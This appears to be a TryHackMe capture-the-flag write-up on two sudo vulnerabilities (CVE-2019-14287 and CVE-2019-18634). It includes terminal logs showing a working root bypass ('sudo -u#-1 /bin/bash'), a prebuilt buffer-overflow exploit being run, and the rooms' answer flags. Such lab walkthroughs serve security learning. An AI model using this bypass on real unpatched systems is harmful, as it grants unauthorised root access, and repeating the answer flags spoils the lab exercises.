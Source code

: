 ### CVE-2019-14287 Overview - Sudo Security Bypass - Tryhackme
[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)  #CVE-2019-14287

- What command are you allowed to run with sudo? - **/bin/bash**
~~~bash
──(kali㉿kali)-[~]
└─$ ssh tryhackme@10.10.61.109 -p 2222
The authenticity of host '[10.10.61.109]:2222 ([10.10.61.109]:2222)' can't be established.
ED25519 key fingerprint is SHA256:4bgDOPxI7PFcv5CMfQYEkO7uBqKjLKhd7zZwmE8uwbQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.61.109]:2222' (ED25519) to the list of known hosts.
tryhackme@10.10.61.109's password: 
Last login: Fri Feb  7 00:14:41 2020 from 192.168.1.151
tryhackme@sudo-privesc:~$ ls
tryhackme@sudo-privesc:~$ sudo -l
[sudo] password for tryhackme: 
sudo: 0l: command not found
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
~~~

- What is the flag in /root/root.txt? - **THM{l33t_s3cur1ty_bypass}**
~~~bash
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# id 
uid=0(root) gid=1000(tryhackme) groups=1000(tryhackme)
root@sudo-privesc:~# ls
root@sudo-privesc:~# cd /root
root@sudo-privesc:/root# ls
root.txt
root@sudo-privesc:/root# cat root.txt
THM{l33t_s3cur1ty_bypass}
~~~

### CVE-2019-18634 - Sudo Buffer Overflow - Tryhackme 
https://github.com/saleemrashid/sudo-cve-2019-18634 #CVE-2019-18634

- What's the flag in /root/root.txt? - **THM{buff3r_0v3rfl0w_rul3s}**

~~~bash
tryhackme@sudo-bof:~$ sudo -l
[sudo] password for tryhackme:          
Sorry, user tryhackme may not run sudo on sudo-bof.
tryhackme@sudo-bof:~$ cat /etc/suoers
cat: /etc/suoers: No such file or directory
tryhackme@sudo-bof:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
tryhackme@sudo-bof:~$ sudo -V 
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
tryhackme@sudo-bof:~$ cd exploit 
-bash: cd: exploit: Not a directory
tryhackme@sudo-bof:~$ ls
exploit
tryhackme@sudo-bof:~$ ./exploit 
~~~
